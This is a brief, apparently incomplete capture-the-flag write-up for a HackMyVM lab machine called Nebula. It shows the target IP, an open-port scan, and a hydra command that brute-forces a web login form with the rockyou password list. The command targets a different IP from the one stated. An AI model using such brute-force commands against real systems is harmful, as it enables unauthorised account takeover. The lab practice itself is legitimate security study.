 # Nebula

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Nebula

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
hydra -t 100 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/login/index.php:username=^USER^&password=^PASS^:F=Login failed"
```
